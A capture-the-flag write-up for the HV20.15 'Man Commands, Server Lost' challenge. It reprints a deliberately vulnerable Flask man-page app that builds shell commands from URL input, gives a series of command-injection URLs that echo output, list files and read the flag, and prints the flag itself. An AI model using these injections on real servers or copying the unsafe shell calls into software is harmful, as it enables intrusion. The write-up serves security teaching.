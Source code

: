 [← Day 14](../day14/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)


# Day 15 / HV20.15 Man Commands, Server Lost


## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tags:   `#penetration-testing` `#web-security`
* Level:  Hard

### Introduction

Elf4711 has written a cool front end for the linux man pages. Soon after
publishing he got pwned. In the meantime he found out the reason and improved
his code. So now he is sure it's unpwnable.


### Notes

* You need to start the web application from the `RESOURCES` section on top
* This challenge requires a VPN connection into the Hacking-Lab. Check out the
  document in the `RESOURCES` section.

### Hints

* Don't miss the source code link on the man page


### Resources

* Man Commands server instance
* Student VPN instructions



## Solution

The challenge's web application looks like this:

![](screenshot_man_server.png)

… and here is the web app's source code …

```python
# flask_web/app.py

from flask import Flask,render_template,redirect, url_for, request
import os
import subprocess
import re

app = Flask(__name__)

class ManPage:
  def __init__(self, name, section, description):
    self.name = name
    self.section = section
    self.description = description

@app.route('/')
def main():
  return redirect('/man/1/man')

@app.route('/section/')
@app.route('/section/<nr>')
def section(nr="1"):
  ret = os.popen('apropos -s ' + nr + " .").read()
  return render_template('section.html', commands=parseCommands(ret), nr=nr)

@app.route('/man/')
@app.route('/man/<section>/<command>')
def manpage(section=1, command="bash"):
  manFile = "/usr/share/man/man" + str(section) + "/" + command + "." + str(section) + ".gz"
  cmd = 'cat ' + manFile + '| gunzip | groff -mandoc -Thtml'
  try: 
    result = subprocess.run(['sh', '-c', cmd ], stdout=subprocess.PIPE)
  except subprocess.CalledProcessError as grepexc:                                                                                                   
    return render_template('manpage.html', command=command, manpage="NOT FOUND")

  html = result.stdout.decode("utf-8")
  htmlLinked = re.sub(r'(<b>|<i>)?([a-zA-Z0-9-_.]+)(</b>|</i>)?\(([1-8])\)', r'<a href="/man/\4/\2">\1\2\3</a><a href="/section/\4">(\4)</a>', html)
  htmlStripped = htmlLinked[htmlLinked.find('<body>') + 6:htmlLinked.find('</body>')]
  return render_template('manpage.html', command=command, manpage=htmlStripped)

@app.route('/search/', methods=["POST"])
def search(search="bash"):
  search = request.form.get('search')
  # FIXED Elf4711: Cleaned search string, so no RCE is possible anymore
  searchClean = re.sub(r"[;& ()$|]", "", search)
  ret = os.popen('apropos "' + searchClean + '"').read()
  return render_template('result.html', commands=parseCommands(ret), search=search)
  
def parseCommands(ret):
  commands = []
  for line in ret.split('\n'):
    l = line.split(' - ')
    if (len(l) > 1):
      m = l[0].split();
      manPage = ManPage(m[0], m[1].replace('(', '').replace(')',''), l[1])
      commands.append(manPage)
  return commands

if __name__ == "__main__":
  app.run(host='0.0.0.0' , port=7777)
```


### Interpreting the attack possibilities

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
One of the three entry points is better than the others for an injection. It's
the one with `@app.route('/man/')`. Through that it is even possible to print
results back to the web page as the `command` variable is **not** parsed there.

`return render_template('manpage.html', command=command, manpage=htmlStripped)`

And that means that it's not necessary to use a reverse shell contrary to what
the challenge description says.

Here follows a list of increasingly better injections …

* `/man/1/man; sleep 5; %23`

   Output: ``

   This injection just makes the server wait for 5 seconds in order to verify 
   that an injection is possible.

* `/man/1/man; echo "oooooohhhhhhh my" ; %23`

   Output: `ohhhhhhh my`

   This injection shows that output to the webpage is possible. It also
   demonstrates that the first 5 characters from an output get cut away.

* `/man/1/man; echo "12345"; pwd; echo ""; ls; %23`

   Output: `/ bin boot dev etc flag home lib lib64 media mnt opt […]`

   This injection shows that access on the remote file system works perfectly
   (except for printing newline characters).

* `/man/1/man; echo "12345"; cat flag; echo " "; %23`

   Output: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

   This injection gets the flag.

--------------------------------------------------------------------------------

Flag: `HV20{D0nt_f0rg3t_1nputV4l1d4t10n!!!}`

[← Day 14](../day14/) / [↑ TOC](../README.md) / [→ Day 16](../day16/)
